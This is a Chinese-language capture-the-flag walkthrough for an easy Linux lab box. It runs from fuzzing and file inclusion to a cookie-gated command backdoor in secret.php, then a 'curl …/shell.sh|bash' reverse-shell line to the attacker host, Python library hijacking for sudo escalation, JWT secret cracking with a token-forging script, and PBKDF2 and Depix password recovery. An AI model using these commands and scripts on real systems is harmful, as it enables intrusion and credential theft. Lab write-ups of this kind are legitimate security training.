## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali/debian  
❯ nmap 192.168.237.155 -sV -A -p- -T4

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 92:6e:6d:b0:bd:08:1e:db:9d:56:0e:f8:15:25:ca:21 (ECDSA)
|_  256 88:d7:08:bd:a2:95:75:cc:71:06:47:ae:fd:d3:8b:b9 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: PHPJabbers.com | Free Food Store Website Template
MAC Address: 00:0C:29:0A:FF:81 (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## ParamScan

访问**80**端口，在网页注释中发现存在**GET**参数



使用**ffuf**对参数进行爆破，发现存在**hack**参数可以控制，但是并不能包含**/etc/passwd**文件

```
[root@kali] /home/kali/debian  
❯ ffuf -u "http://192.168.237.155/index.php?FUZZ=1" -w ../Desktop/fuzzDicts/paramDict/AllParam.txt  -fs 18852

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.237.155/index.php?FUZZ=1
 :: Wordlist         : FUZZ: /home/kali/Desktop/fuzzDicts/paramDict/AllParam.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 18852
________________________________________________

hack                    [Status: 200, Size: 18864, Words: 6832, Lines: 377, Duration: 43ms]
:: Progress: [74332/74332] :: Job [1/1] :: 4347 req/sec :: Duration: [0:00:17] :: Errors: 0 ::
```

## Gobuster

尝试列举网站目录下的其他文件

```
[root@kali] /home/kali/debian  
❯ gobuster dir -u http://192.168.237.155 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php       
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.237.155
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 280]
/index.php            (Status: 200) [Size: 18852]
/products.php         (Status: 200) [Size: 12163]
/terms.php            (Status: 200) [Size: 6670]
/assets               (Status: 301) [Size: 319] [--> http://192.168.237.155/assets/]
/testimonials.php     (Status: 200) [Size: 7907]
/contact.php          (Status: 200) [Size: 8853]
/about.php            (Status: 200) [Size: 10036]
/javascript           (Status: 301) [Size: 323] [--> http://192.168.237.155/javascript/]
/checkout.php         (Status: 200) [Size: 13307]
/blog.php             (Status: 200) [Size: 9782]
/secret.php           (Status: 200) [Size: 2187]
/.php                 (Status: 403) [Size: 280]
/server-status        (Status: 403) [Size: 280]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

## Own www-data

发现存在**secret.php**，并且可以通过**hack**参数包含到**index.php**当中



查看**secret.php**源码，发现只需要设置**Cookie**就能执行命令

```
[root@kali] /home/kali/debian  
❯ cat secret.txt|base64 -d                                                                                
......
......
<div class="console">
    <div class="output" id="output">
        <?php

        if (isset($_COOKIE['AreYouAdmin']) && $_COOKIE['AreYouAdmin'] === 'Yes') {

            if (isset($_GET['command'])) {
                $command = $_GET['command'];
                $output = shell_exec($command);
                echo '<div>\> ' . htmlspecialchars($command) . '</div>';
                echo '<div>' . nl2br(htmlspecialchars($output)) . '</div>';
            }
        } else {
            echo '<div>No permission to execute commands, lacking admin permission.</div>';
        }
        ?>
    </div>

    <div class="input-container">
        <span class="prompt">\></span>
        <form method="get">
            <input type="text" name="command" id="input" placeholder="command..." autocomplete="off">
        </form>
    </div>
</div>

<script>
    const inputField = document.getElementById("input");

    inputField.focus();
</script>

</body>
</html>
```



```
http://192.168.237.155/secret.php?command=curl 192.168.237.147/shell.sh|bash
```



## Own debian

查看**www-data**的特殊命令

```
www-data@debian:/var/www/html/shop$ sudo -l
sudo -l
Matching Defaults entries for www-data on debian:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    targetpw, use_pty

User www-data may run the following commands on debian:
    (debian) NOPASSWD: /usr/bin/python3 /var/www/html/vuln.py
```

查看**vuln.py**的具体内容，代码没有任何意义

```
www-data@debian:/var/www/html$ cat vuln.py
cat vuln.py
import random
import time
import math
import string
import datetime

def generate_random_string(length=10):

    return ''.join(random.choices(string.ascii_letters + string.digits, k=length))

def pointless_computation():

    number = random.randint(1, 1000)
    result = math.sqrt(number) * math.log(number)
    print(f"Calculated math nonsense: sqrt({number}) * log({number}) = {result}")

def simulate_time_wasting():

    now = datetime.datetime.now()
    print(f"Started wasting time at {now}")
    time.sleep(2)  # 故意睡眠 2 秒
    later = datetime.datetime.now()
    print(f"Finished wasting time at {later}. Time wasted: {later - now}")

def pointless_string_operations():

    rand_str = generate_random_string()
    print(f"Generated random string: {rand_str}")
    reversed_str = rand_str[::-1]
    print(f"Reversed string: {reversed_str}")
    print(f"String length: {len(rand_str)}")

if __name__ == "__main__":
    pointless_computation()
    simulate_time_wasting()
    pointless_string_operations()
    print("All done. The script accomplished nothing useful.")
```

不过当前目录是可以写入的



进行库劫持，修改datetime的代码

```
www-data@debian:/var/www/html$ wget 192.168.237.147/datetime.py
wget 192.168.237.147/datetime.py
--2025-03-08 22:25:21-- http://192.168.237.147/datetime.py
Connecting to 192.168.237.147:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 88 [text/x-python]
Saving to: 'datetime.py'

     0K                                                       100% 17.5M=0s

2025-03-08 22:25:21 (17.5 MB/s) - 'datetime.py' saved [88/88]

www-data@debian:/var/www/html$ cat datetime.py
cat datetime.py
import os
class datetime():
    def now():
        os.system("/bin/bash -p")
```

然后执行**sudo**，即可获取到**debian**的权限，可以写入**/home/.ssh/authorized\_keys**来进行**ssh**密钥登录



登录拿到**User.txt**



## Root

在**/home/debian**目录下看到另外两个文件

```
debian@debian:~$ cat config.php 
<?php
$servername = "localhost";
$username = "root";
$password = "

$conn = new mysqli($servername, $username, $password);

............
............
debian@debian:~$ cat note.txt 
Damn it, I forgot my database password. I heard that Debian is currently building a message board, maybe he can help me
```

查看**/var/www/html/flask/main.py**结果没有权限，再查看端口开放了**127.0.0.1:5000**



使用**ssh**端口转发

```
[root@kali] /home/kali  
❯ ssh -i ~/.ssh/id_rsa debian@192.168.237.155 -L 5000:127.0.0.1:5000   
```

在网页源码中发现了网站使用的密钥非常简单



可以任意登录一个用户，比如 123:123，会得到一个token



进行解密👉[JSON Web Tokens - jwt.io](https://jwt.io/)



使用**john**进行爆破，得到**KEY**



可以使用**python**脚本来生成**jwttoken**

```
import jwt
import datetime

# 用于加密的密钥
SECRET_KEY = 'noob'

# 生成JWT的载荷
payload = {
    'username': 'admin',
    'exp': datetime.datetime.utcnow() + datetime.timedelta(hours=1)  # 设置过期时间为1小时
}

# 使用 pyjwt 加密生成 JWT
encoded_jwt = jwt.encode(payload, SECRET_KEY, algorithm='HS256')
print("Encoded JWT:", encoded_jwt)
```

使用**burpsuite**进行抓包替换**token**，得到**mysql**的登录凭证



```
Mysql account root:ThePasswordYouNeverCracked
```

在数据库中发现一段哈希值，使用**pbkdf2**进行加密的



可以使用下面的脚本进行破解，也可以使用

```
import hashlib
import binascii

def pbkdf2_hash(password, salt, iterations=50500, dklen=60):
    hash_value = hashlib.pbkdf2_hmac(
        'sha256',
        password.encode('utf-8'),
        salt,
        iterations,
        dklen
    )
    return hash_value

def find_matching_password(dictionary_file, target_hash, salt, iterations=50500, dklen=60):
    target_hash_bytes = binascii.unhexlify(target_hash)

    with open(dictionary_file, 'r', encoding='utf-8') as file:
        count = 0
        for line in file:
            password = line.strip()
            hash_value = pbkdf2_hash(password, salt, iterations, dklen)
            count += 1
            print(f"Check {count}: {password}")
            if hash_value == target_hash_bytes:
                print(f"\nFound password: {password}")
                return password
        print("Password not found.")
        return None

salt = binascii.unhexlify('8bf3e3452b78544f8bee9400d6936d34')
target_hash = '2c082e3ff2ca15e3b24f815d70653f0dead09534495069dd140e19adb2d117266cc4b1de8daf55c7c4827a0a5ccf70c6f537ffc4ddc74db4865c41c0'
dictionary_file = '/usr/share/wordlists/rockyou.txt'
find_matching_password(dictionary_file, target_hash, salt)
```

破解得到密码：**1qaz2wsx**



拿到密码后在**/home/debian/.secret**目录下发现一个压缩包

注意！！！！！

经过修改后的靶机，这里实际上是MD5直接加密操作，而非异或！！



进行异或操作，得到压缩包的密码是：**mjucwnilynkktf**



将**root.zip**传到**kali**里面，解密



得到的是一张模糊的图片



这里需要使用到一个工具

- [spipm/Depixelization\_poc: Depix is a PoC for a technique to recover plaintext from pixelized screenshots.](https://github.com/spipm/Depixelization_poc)



查看**output.png**，发现与**Github**上的相同





得到**root**的密码

```
root:hellofromtheotherside
```



## Summary

`User`：通过对参数爆破然后进行文件包含得到**secret.php**的源代码，设置**cookie**之后可以反弹到**www-data**的**shell**。通过劫持**vuln.py**的**datetime**库，将权限提升到了**debian**。

`Root`：通过**debian**家目录下的几个文件线索，在**127.0.0.1:5000**端口上的**flask**服务中，通过爆破**jwt secret key**，得到**mysql**的登录凭证。在**mysql**中获取到了**pbkdf2**加密的哈希值，进行爆破得到明文密码。在**/home/debian/.secret/**中发现一个加密的**zip**文件，以及需要进行**XOR**异或运算的提示。解密后解压**root.zip**，得到一张模糊的图片。可以使用**Depix**工具还原，得到与**Github**上相同密码是**hellofromtheotherside**，提升到**root**权限。
